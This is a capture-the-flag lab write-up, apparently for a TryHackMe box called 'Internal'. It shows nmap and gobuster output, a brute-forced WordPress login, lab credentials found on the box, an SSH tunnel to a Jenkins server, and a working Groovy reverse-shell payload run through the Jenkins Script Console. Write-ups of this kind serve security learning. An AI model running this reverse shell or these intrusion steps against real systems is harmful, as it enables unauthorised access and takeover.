 # nmap

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-13 14:22 IST
Warning: 10.10.234.8 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.234.8
Host is up (0.16s latency).
Not shown: 65372 closed tcp ports (conn-refused), 161 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## gobuster

```shell
/blog                 (Status: 301) [Size: 309] [--> http://10.10.234.8/blog/]
/wordpress            (Status: 301) [Size: 314] [--> http://10.10.234.8/wordpress/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.234.8/javascript/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.234.8/phpmyadmin/]

```

Adding in the etc/hosts    `10.10.234.8     internal.thm`

**Found php login page**       `<ip>/phpmyadmin/index.php`

![image-20220513153950121](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220513153950121.png)

**Found wordpress login**      `http://internal.thm/blog/wp-login.php`

![image-20220513153820002](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220513153820002.png)

using `wpsacntool` found valid password

Username: `admin`, Password: `my2boys`

![image-20220515150234918](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220515150234918.png)

found Will’s credentials. `william:arnold147`

![image-20220515151342046](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220515151342046.png)

running `linpieas` found username and password for this page `/phpmyadmin/index.php`

`dbpass='B2Ud4fEOZmVq'; $dbuser='phpmyadmin'`

![image-20220515153804025](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220515153804025.png)

looked further and found password for` aubreanna` in  `/opt/wp-save.txt`

`aubreanna:bubb13guM!@#123`
found running internal server on `172.17.0.1:8080`

using ssh tennling `ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.225.133`

found its running jenkins server after bruteforceing  founf credentials

`admin:spongebob`

got the reverse shell by running Script Console with 

```groovy
String host="localhost";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

found root password in `/opt/note.txt`

`root:tr0ub13guM!@#123`
